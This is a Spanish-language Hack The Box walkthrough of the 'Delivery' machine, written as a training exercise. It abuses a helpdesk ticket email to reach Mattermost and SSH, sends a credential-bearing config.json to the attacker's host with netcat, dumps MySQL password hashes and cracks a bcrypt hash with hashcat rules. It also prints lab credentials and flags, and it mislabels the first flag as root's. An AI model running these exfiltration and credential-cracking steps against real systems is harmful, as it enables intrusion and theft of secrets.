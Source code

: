 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/DELIVERY.webp)


# DELIVERY [HACKTHEBOX]
### (Host Enumeration, Support Ticket System Exploitation, Information Leakage, SQL Database Enumeration, Hash Cracking, Hashcat Rules for BruteForce)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Empezamos haciendo un escaneo de nmap con los siguientes argumentos:

```bash
nmap -p- --open -sS -sCV -T5 10.10.10.222 -n -Pn -vvv -oN escaneo_nmap
```

Nos encuentra varios puertos abiertos:

![image](../zimages/Pasted_image_20241117232318.png)

Si nos metemos en la web (puerto 80) y pinchamos donde pone "HelpDesk", nos lleva a un dominio el cual no nos conecta:

![image](../zimages/Pasted_image_20241117232430.png)

Nos tendremos que ir a /etc/hosts y añadirlo, una vez hecho, ya nos muestra el contenido:

![image](../zimages/Pasted_image_20241118000804.png)

Si le damos a "Open a New Ticket", nos sale esto:

![image](../zimages/Pasted_image_20241118012424.png)

Después de poner datos aleatorios y darle a "Create Ticket", nos sale el siguiente mensaje:

![image](../zimages/Pasted_image_20241118012444.png)

Ahora vamos a meternos a "Check Ticket Status", poniendo nuestro email y el ID del ticket que acabamos de crear, nos entra en una especie de correo temporal de gestión de tickets:

![image](../zimages/Pasted_image_20241118012723.png)

Ahora que tenemos esto, si recordamos el mensaje que nos puso cuando creamos el ticket, vimos que creaba un email con el número de id para la gestión del ticket, es decir, puede ser que tengamos un posible correo al cual le lleguen mensajes y nos los ponga como respuesta a nuestro ticket. 

Si nos fijamos en el escaneo de nmap, vemos que hay un 3er puerto abierto (8065), nos metemos en la web y nos aparece un panel de login, también nos da una opción a registrarnos, como tenemos un posible email, vamos a darle y metemos nuestros datos con el email que se creó:

![image](../zimages/Pasted_image_20241118012853.png)

Una vez le damos a "Create Account", nos sale este mensaje:

![image](../zimages/Pasted_image_20241118013224.png)

Si ahora nos vamos a la web donde tenemos el ticket activo y recargamos, vemos que tenemos una nueva respuesta, que en verdad es el correo de confirmación que se envió:

![image](../zimages/Pasted_image_20241118013240.png)

En el correo hay un link, vamos a meternos:

![image](../zimages/Pasted_image_20241118013534.png)

Una vez metida la contraseña, seleccionamos el grupo "internal" y nos aparece esto:

![image](../zimages/Pasted_image_20241118013555.png)

Ahora que tenemos unas posibles credenciales, vamos a intentar entrar por ssh, que era otro de los puertos que había abiertos:

![image](../zimages/Pasted_image_20241118014300.png)

Ya tenemos la flag de root:

`00fe0c6ba14951250a36d5184ae3d96e`

Ahora vamos a enumerar más usuarios del sistema mediante el siguiente comando:

```bash
cat /etc/passwd | grep "sh$"
```

Nos muestra a 'root', 'maildeliverer' y 'mattermost':

![image](../zimages/Pasted_image_20241118041947.png)

Vamos a intentar buscar información de mattermost en el sistema, para ello, utilizamos el siguiente comando:

```bash
find / 2>/dev/null | grep -i mattermost
```

Y este es el output:

![image](../zimages/Pasted_image_20241118042127.png)

Son muchas líneas y difíciles de leer, vamos a modificar el output para que nos ponga sólo lo que queremos ver:


```bash
find / 2>/dev/null | grep -i mattermost | grep -vE "sys|prepacked|cgroup|plugins|templates|client|i18n|fonts"
```

Ahora mejor:

![image](../zimages/Pasted_image_20241118042154.png)

Si nos fijamos en las rutas que nos saca, vemos una que nos llama la atención:

`/opt/mattermost/config` 

También podríamos haber ejecutado el siguiente comando para descubrirlo:

`ps -faux | grep -i mattermost`

Si nos metemos y listamos, vemos un archivo "config.json"

![image](../zimages/Pasted_image_20241118042409.png)

Al leerlo nos aparece todo en blanco y es complicado de leer, para verlo mejor, vamos a utilizar netcat para pasarnos el output a nuestra máquina víctima:

```bash
cat config.json | nc 10.10.16.2 4443
```

Nos ponemos en escucha y le concatenamos `jq` para verlo mejor. Si nos fijamos en el output, vemos algo que nos llama la atención:

![image](../zimages/Pasted_image_20241118044435.png)

Ahora que tenemos otras credenciales (`mmuser:Crack_The_MM_Admin_PW`) de lo que parece ser una base de datos, vamos a intentar entrar:

```bash
mysql -u mmuser -p
```

Y nos saca esto:

![image](../zimages/Pasted_image_20241118044604.png)

Vamos a entrar en la base de datos "mattermost" y listar las tablas:

```bash
use mattermost
show tables;
```

Una vez listadas, vemos que hay una que se llama "Users", vamos a ver que tablas contiene describiéndola:

```bash
describe Users;
```

Como hay muchas tablas, vamos a seleccionar sólo las que nos interesan:

```bash
select Username, Password from Users;
```

Ahora ya tenemos lo que queremos, son hashes de las contraseñas de los usuarios de la web "mattermost". Si nos fijamos hay un hash de root:

![image](../zimages/Pasted_image_20241118044846.png)

Recordando la web de Mattermost, había un mensaje en el chat interesante y relacionado con esto:

![image](../zimages/Pasted_image_20241118045007.png)

Ahora ya tenemos todo lo que necesitamos para ser root, vamos a guardar el hash en un archivito:

![image](../zimages/Pasted_image_20241118045037.png)

Y la palabra en la cual nos vamos a basar para hacer un ataque con hashcat:

![image](../zimages/Pasted_image_20241118045140.png)

Vamos a buscar que tipo de hash es para poder hacer la fuerza bruta:

```bash
hashcat --example-hashes | grep '$2a' -B 11
```

Y este es el modo que queremos:

![image](../zimages/Pasted_image_20241118045247.png)

Ahora, con hashcat, vamos a realizar un ataque de fuerza bruta utilizando el diccionario de reglas "rockyou-30000", que contiene varias reglas para crear un diccionario basándose en la palabra que le hemos indicado ("PleaseSubscribe!"):

```bash
hashcat -m 3200 -a 0 -r /usr/share/hashcat/rules/rockyou-30000.rule hash base_password
```

Esperamos un rato y nos saca la contraseña sin problemas:

![image](../zimages/Pasted_image_20241118045426.png)

Ahora si volvemos a la máquina víctima, podemos probar a convertirnos en root con esa contraseña:

![image](../zimages/Pasted_image_20241118045512.png)

Una vez somos root, solo nos queda irnos al directorio '/root' y ver la flag (`7d408b4c5e32b8b9d6dbf0b8e1554fd5`):

![image](../zimages/Pasted_image_20241118045541.png)

# ./ROOTED

![image](../zimages/Pasted_image_20241118045635.png)


